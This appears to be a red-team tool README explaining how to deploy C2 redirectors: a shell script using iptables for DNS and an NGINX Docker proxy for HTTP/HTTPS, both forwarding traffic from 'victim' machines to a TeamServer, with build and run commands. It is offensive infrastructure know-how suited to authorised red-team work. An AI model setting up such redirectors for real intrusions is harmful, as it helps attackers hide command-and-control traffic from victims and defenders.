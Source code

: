# **REDIRECTORS USAGE GUIDE**  

## **DNS**

The DNS redirector uses IPTables to forward traffic from the victim machine to the TeamServer.   The  
usage is pretty straight forward.. **_dns_redir.sh ip.to.fwd.to port_**

**EXAMPLE**

```
.\DNS_redir.sh help  
sudo .\DNS_redir.sh 53.43.177.239 2224
```


## **HTTP/HTTPS**

The HTTP/HTTPS redirector is a docker that uses NGINX proxy forwarding to forward traffic from  
the victim maching to the TeamServer.   

**Build the Docker Image**

**TEAM_SERVER** - This is the IP ADDR of the Team Server  
**LPORT** - This is the Port that the NGINX Server will listen on (use 80 for http 443 for https)  
**repo/http:1.0** - This is "repository/imageName:versionNumber" 
**HTTP**
```
docker build --build-arg TEAM_SERVER="http://TEAM_SERVER_IP:port_fwdg_to" --build-arg LPORT=80 -t repo/http:1.0 .  
```
**HTTPS**
```
docker build --build-arg TEAM_SERVER="https://TEAM_SERVER_IP:port_fwdg_to" --build-arg LPORT=443 -t repo/https:1.0 .  
```

**Create a container**  
**a.b.c.d** - This is the public IP for the Redirector (if using AWS, use the internal IP for the server) 
**e** - This is the port that will be exposed on the host  
**f** - This is the port that will correspond with the port you specified with the LPORT value when  
        the image was built.  It will be mapped to the port exposed on the host.   
```
docker run -p a.b.c.d:e:f repo/http:1.0
```
**HTTP Example:**
```
docker run -p 53.43.177.239:80:80 repo/http:1.0
```
**HTTPS Example**
```
docker run -p 53.43.177.239:443:443 repo/https:1.0
```

